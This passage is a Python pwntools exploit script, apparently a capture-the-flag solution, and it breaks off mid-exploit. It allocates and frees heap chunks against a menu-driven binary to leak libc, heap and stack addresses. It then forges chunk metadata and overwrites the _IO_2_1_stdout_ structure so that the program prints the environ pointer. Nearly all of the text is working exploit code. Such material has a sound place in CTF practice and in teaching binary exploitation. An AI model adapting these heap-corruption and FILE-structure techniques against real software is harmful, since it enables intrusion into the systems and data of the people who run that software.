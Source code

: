 ````python
	sh.sendline(str(addr))
	sh.recvuntil(':')
	sh.send(num)


def show(index):
	choice(3)
	sh.recvuntil(':')
	sh.sendline(str(index))


def delete(index):
	choice(2)
	sh.recvuntil(':')
	sh.sendline(str(index))

gdb.attach(sh,'''
b*0x7ffff77e7102
c	
''')
add(0x80,'a') #0
add(0x60,'a') #1
add(0x60,'a') #2
delete(0)     #-0
delete(1)     #-1
delete(2)     #-2
#leak libc
add(0x80,'') #0
show(0)		 
sh.recvuntil('\n')
sh.recvuntil('\n')
libc_base=u64(('\n'+sh.recvuntil('\n').replace('\n','')).ljust(8,'\x00'))-0x3c4b0a
environ_addr=libc_base+libc.symbols['environ']
stdout_hook=libc_base+libc.symbols['_IO_2_1_stdout_']
stdin_hook=libc_base+libc.symbols['_IO_2_1_stdin_']
_IO_file_jumps=libc_base+libc.symbols['_IO_file_jumps']
print hex(stdin_hook)
#leak heap
add(0x60,'') #1
show(1)
sh.recvuntil('\n')
sh.recvuntil('\n')
heap=u64(('\n'+sh.recvuntil('\n').replace('\n','')).ljust(8,'\x00'))-0x0a
add(0x60,'') #2
print hex(heap)
#leak stack
add(0x60,'') #3
add(0xf0,'a') #4
add(0x60,'a') #5
delete(3)     #-3
add(0x68,p64(0)*12+p64(0xd0)) #3
delete(1)    #-1
add(0x60,p64(0)+p64(0xd1)+p64(heap+0x140)*2+p64(0)*2+p64(heap+0x120)*2) #1
delete(4)    #-4
delete(3)    #-3
add(0x110,p64(0)*11+p64(0x71)+p64(stdout_hook-0x43))
add(0x60,'')
payload='\x00'*3+p64(0)*5+p64(_IO_file_jumps)+p64(0xfbad1811)+p64(0)*3+p64(environ_addr)+p64(environ_addr+8)
print hex(len(payload))
add(0x68,payload)
sh.recvuntil('\n')
stack=u64(sh.recv(8))-0xf2
````